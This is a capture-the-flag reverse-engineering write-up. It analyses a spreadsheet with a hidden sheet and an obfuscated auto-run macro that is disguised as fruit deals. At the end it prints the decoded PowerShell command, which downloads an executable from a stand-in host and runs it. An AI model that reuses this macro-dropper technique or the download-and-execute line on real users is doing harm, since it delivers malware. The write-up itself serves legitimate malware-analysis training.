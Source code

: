 # Fruit Deals - Reverse Engineering Writeup

## Description:
![](screenshots/problem.png)
I found a excel sheet with some great deals thanks to some random guy on the internet! Who doesn't trust random people off the internet, especially from email

The flag is the file name that was attempted to be downloaded, wrapped in utflag{} Note: the file imitates malicious behavior. its not malicious, but it will be flagged by AV. you probably shouldn't just run it though.

By Samintell (@samintell on discord)

## Solution:
### Step 1:

On the initial load of the spreadsheet, It warned me saying that it was unable to find deals and the popup to enable macros

After opening up VB Editor, the first thing I noticed was the Sheets listed on the editor didn't match what was being shown on the main UI 
![](screenshots/Step1.1.png)


After Enabling the hidden sheets we are greeted with this awful mess.
![](screenshots/Step1.2.png)
![](screenshots/Step1.3.png)

### Step 2:
In summary, the script appears to be dynamically constructing a command based on values in the Excel spreadsheet, executing the command, and then opening a specified YouTube link in the web browser which is most likely designed to move the end users' attention away from what the script is doing. 

Upon examining the code within the AutoOpen Macro, it initializes several variables and scans different cells within Sheet 2 for particular values. 
Depending on these values, specific strings are appended with corresponding values, ultimately forming a command ('f') by manipulating strings.

![](screenshots/Step2.png)

### Step 3:

To find out what the script is doing in the background, I briefly looked at what is being appended and saw some strings that stand out which was ```Invok``` ```http``` ```K.Dow``` and ```nload```

![](screenshots/Step3.1.png)
![](screenshots/Step3.2.png)

### Step 4:

To read the output, I just need to add a breakpoint on the line 
```
f = t53df028c67b2f07f1069866e345c8b85 + qe32cd94f940ea527cf84654613d4fb5d + e5b138e644d624905ca8d47c3b8a2cf41 + tfd753b886f3bd1f6da1a84488dee93f9 + z92ea38976d53e8b557cd5bbc2cd3e0f8 + xc6fd40b407cb3aac0d068f54af14362e
```
![](screenshots/Step4.png)

After opening up the variable viewer, I can see the strings and their values, which shows the script to be executed and the flag is appended to the $CNTA variable. 
![](screenshots/Step4.1.png)


### Executed Command: 
```powershell 
f = "poWeRsHELL -command "$oaK = new-object Net.WebClient;$OrA = 'http://fruit.gang/malware';
$CNTA = 'banANA-Hakrz09182afd4';
$jri=$env:public+''+$CNTA+'.exe';
try{
  $oaK.DownloadFile($OrA, $jri);
  Invoke-Item $jri;
  break;
} catch {} ""
```

## Flag: utflag{banANA-Hakrz09182afd4.exe}
